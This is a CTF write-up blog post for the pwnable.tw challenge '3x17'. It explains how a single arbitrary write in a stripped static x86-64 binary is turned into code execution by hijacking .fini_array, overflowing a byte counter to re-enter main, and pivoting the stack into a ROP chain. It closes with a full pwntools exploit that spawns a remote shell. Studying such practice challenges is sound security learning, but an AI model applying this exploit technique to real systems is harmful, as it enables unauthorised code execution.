 ```yaml
---
layout: post
title:  "Pwnable.tw - 3x17"
date:   2024-12-29 19:59:45 +0300
categories: jekyll update
---
```


**Contents**
* TOC
{:toc}
## 3x17

```bash
$ checksec 3x17
[*] '/home/itay/projects/pwnable_tw/3x17/3x17'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)

$ file 3x17
3x17: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 3.2.0, BuildID[sha1]=a9f43736cc372b3d1682efa57f19a4d5c70e41d3, stripped
```

Finally, 64-bit binary. Stripped though. 

### Overview

The program prompts us, asking for `"addr:"` and `"data:"`. 
There's also a counter, making sure this is called only once. 
Notice we can write `0x18` bytes. \
Hence, the challenge idea is simple (yet challenging) - 
**having a single arbitrary write, without any leak, obtain RCE.**

Btw, 3x17 is an interesting name for a challenge, and it probably serves as some kind of hint. 

### Exploitation

#### Idea (Failed) - One gadget

The first idea, of course, is to overwrite the counter, as it is placed within
some constant `.bss` address. However, right after doing so, the program would terminate. \
The second idea is to use one-gadget. By changing the program's control flow into the one-gadget address 
(which is known, as the binary is statically linked and no PIE), we would win. \
So this solves the `data` we would like to write. But which `addr` we would like to write to?
Because theres no stack leak, I aimed to obtain branch primitive by overwriting a `.fini` handler. \
Recall how `_start` invokes `main` - it calls `__libc_start_main`, with `main` address as one of its parameters. 
However, some of the other parameters are the `init, fini` code snippets. 
In this binary, `0x402960` serves as the destructor code, which would be executed right prior 
to program's termination, invoking function pointers off `.fini_array`, which is located
within `0x4b40f0` on our binary, and contains `2` default handlers. \
So in short, I'll simply execute the following:

```bash
*_fini_array[0] = one_gadget;
```

However, upon running one gadget on the static binary, I've noticed it was only compiled with part of its needed libc. \
Hence, It did not contain the code snippet that usually wrapped within `system`, and there were no references of `/bin/sh`.

#### Idea - .init_array, .fini_array

As mentioned, the `.fini_array` actually contains 2 slots, and our write primitive allows `0x18` linear write. 
Hence, we can overwrite the 2 handlers that are stored there, making sure `main` would be called once again,
allowing extra invocation of the write primitive, along with setting the return address. \
**We can take this approach further** - instead of jumping back to `main`, jump back to `_start`.
By doing so, we would also first invoke the `.init_array` handlers before executing `main`. 
This also may explain why overwrite of `0x18` was given within the challenge. 
The challenge's name may hint there are `3` invocations involved, but not sure why `17` (and not `18`?) though. \
At this point, I've decided I have to go deeper into the ELF initialization & termination processes, focusing on our
controlled arrays. The [following great article][elf-start] explains exactly this.

#### __libc_csu_init, __libc_csu_fini

A very good candidates we can set our `.fini_array` entry to. 
By doing so, it invokes the 2 handlers of the `.init{fini}_array` one after another, without any stack-layout requirement. \
While it doesn't seem significant, 
it actually transforms our arbtitrary-single-branch primitive into arbitrary-double-branch primitive. 
However, we still need to write our shellcode somewhere, make it executable, and jump to it. 

#### Re-execution

To achieve our prerequisites for running the shellcode, we must be able to invoke the write primitive multiple times. 
Now that we can jump into any 2 addresses we wish (by jumping to the `.init_array` runner routine), we can think of some wacky ideas. \
For example, setting the second init handler to the same `.init_array` runner routine, while setting the first - to the arbitrary write within `main`. 

**The big obstacle of this challenge, is having the `counter` check within `main`**, hence - invoking main multiple times won't naively work. \ 
However, the counter is actually saved as a single byte within global variable. 
By invoking `main` 256 times, integer overflow occurs, and the counter is reset back to `0`. 
This means that by making an infinite jump trampoline to `main`, we would eventually be able to re-execute the write primitive code!

#### Termination

Right upon invoking the `.fini_array` handlers within `__libc_csu_fini`, 
`rbp` is always initialized to the `.fini_array` address. 

```bash
pwndbg> x/10gx $rbp
0x4b40f0:       0x0000000000402960      0x0000000000401b6d
0x4b4100:       0x0000000d00000002      0x000000000048f7e0
```

This means that if we would find `leave ; ret` gadget, we would first load `rbp + 8` to `rsp` (`0x4b40f8` in the example),
and jump to whatever resides there. \
Hence, we shall overwrite `.fini_array[0] = leave_gadget`, and `.fini_array[1] = RA`.
The easiest way to exploit this would probably be a ROP chain, where the above `RA` stands for the first gadget's address.

### Solution

```python
#!/usr/bin/python3

from pwn import *

HOST = 'chall.pwnable.tw'
PORT = 10105
context.arch='amd64'
BINARY = './3x17'
GDB_SCRIPT = '''
b *0x41e4af
commands
    p "Called leave.."
end

c
'''

binary_rop = ROP(BINARY)

# Offsets

# Constants
CHUNK_SIZE = 0x18

# Addresses
FINI_ARRAY = 0x4b40f0
MAIN = 0x401b6d
LIBC_CSU_FINI = 0x402960 
SHELLCODE_ADDR = 0x4B9C00  # Just random RW memory

pop_rdi_ret = binary_rop.rdi.address
pop_rsi_ret = binary_rop.rsi.address
pop_rdx_ret = binary_rop.rdx.address
pop_rax_ret = binary_rop.rax.address
leave_ret = binary_rop.find_gadget(['leave']).address
syscall = binary_rop.find_gadget(['syscall']).address
log.info(f'pop_rdi_ret: {hex(pop_rdi_ret)}')
log.info(f'pop_rsi_ret: {hex(pop_rsi_ret)}')
log.info(f'pop_rdx_ret: {hex(pop_rdx_ret)}')
log.info(f'pop_rax_ret: {hex(pop_rax_ret)}')
log.info(f'leave_ret: {hex(leave_ret)}')
log.info(f'syscall: {hex(syscall)}')


def unsigned(n, bitness=32):
    if n < 0:
        n = n + 2**bitness
    return n

def pad(buf, alignment, delimiter=b'\x00'):
    if (len(buf) % alignment) == 0:
        return buf

    extra = (alignment - (len(buf) % alignment)) * delimiter
    return buf + extra

def splitted(buf, n):
    for i in range(0, len(buf), n):
        yield buf[i: i + n]

def write(p, addr, data):
    p.recvuntil(b'addr:')
    p.sendline(str(addr).encode())
    p.recvuntil(b'data:')
    p.send(data)

def exploit(p):
    buf = b''
    buf += p64(LIBC_CSU_FINI)       # .fini_array[0] - redo! 
    buf += p64(MAIN)                # .fini_array[1] - call to main. This would use the counter integer overflow, after 256 times - reseting it back to 0
    write(p, addr=FINI_ARRAY, data=buf)  # Arbitrary-write enabled!

    rop_buf = p64(leave_ret)
    rop_buf += p64(pop_rax_ret)
    rop_buf += p64(0x3b)
    rop_buf += p64(pop_rsi_ret)
    rop_buf += p64(0)
    rop_buf += p64(pop_rdx_ret)
    rop_buf += p64(0)
    rop_buf += p64(pop_rdi_ret)
    rop_buf += p64(FINI_ARRAY + len(rop_buf) + 0x10)
    rop_buf += p64(syscall)
    rop_buf += b'/bin/sh\x00'

    write(p, addr=FINI_ARRAY + 3 * CHUNK_SIZE, data=rop_buf[3 * CHUNK_SIZE: 3 * CHUNK_SIZE + 0x10])
    write(p, addr=FINI_ARRAY + 2 * CHUNK_SIZE, data=rop_buf[2 * CHUNK_SIZE: 3 * CHUNK_SIZE])
    write(p, addr=FINI_ARRAY + CHUNK_SIZE, data=rop_buf[CHUNK_SIZE: 2 * CHUNK_SIZE])
    write(p, addr=FINI_ARRAY, data=rop_buf[: CHUNK_SIZE])    


def main():
    is_debug = False
    is_remote = True
    if is_debug:
        p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
    else:
        if is_remote:
            p = remote(HOST, PORT)
        else:
            p = process(BINARY)

    exploit(p)

    log.info('Win')
    p.interactive()

if __name__ == '__main__':
    main()
```

[elf-start]: http://www.dbp-consulting.com/tutorials/debugging/linuxProgramStartup.html
